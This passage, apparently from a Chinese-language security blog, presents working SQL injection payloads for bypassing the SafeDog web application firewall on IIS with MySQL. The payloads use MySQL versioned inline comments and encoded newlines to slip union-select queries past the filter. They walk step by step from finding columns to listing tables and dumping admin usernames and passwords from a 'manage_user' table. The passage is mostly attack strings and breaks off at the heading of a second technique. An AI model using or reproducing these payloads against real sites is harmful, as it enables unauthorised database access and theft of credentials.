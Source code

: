 
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

  

**2.实例：六条语句bypass安全狗**

环境：安全狗4.0 IIS版本+mysql 5.4+IIS 7.5

**第一种：特殊数字+内敛注释**

```
`#在1-55000之间找特殊数字，这个数字表示数据库版本。数据库是4.45.09以上版本该语句才会被执行``id=-1%20union%20/*!44509select*/%201,2,3%23``id=-1%20union%20/*!44509select*/%201,%23x%0A/*!database*/(),3%23`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

ps：我发现在这个区间只要带44的数字都不拦截，不知道这是不是一枚彩蛋。

```
`#找数字列``showproducts.php?id=-13/*!10444union*//*!10444%23*/%0a/*!10444select*/1,2,3,4,5,6,7,8,9,10``#数据库名``showproducts.php?id=-13/*!10444union*//*!10444%23*/%0a/*!10444select*/1,database%23%0a(),3,4,5,6,7,8,9,10`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`#表名``showproducts.php?id=-13/*!10444union*//*!10444%23*/%0a/*!10444select*/1,group_concat(table_name),3,4,5,6,7,8,9,10 from information_schema.tables where table_schema=0x7879636d73`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`#字段名``showproducts.php?id=-13/*!10444union*//*!10444%23*/%0a/*!10444select*/1,group_concat(column_name),3,4,5,6,7,8,9,10 from information_schema.columns where table_name=0x6d616e6167655f75736572`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`#字段内容``showproducts.php?id=-13/*!10444union*//*!10444%23*/%0a/*!10444select*/1,group_concat(m_name,m_pwd),3,4,5,6,7,8,9,10 from manage_user`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

  

### **第二种union/_%00_/%23a%0A/_!/_!select 1,2,3\*/;%23**
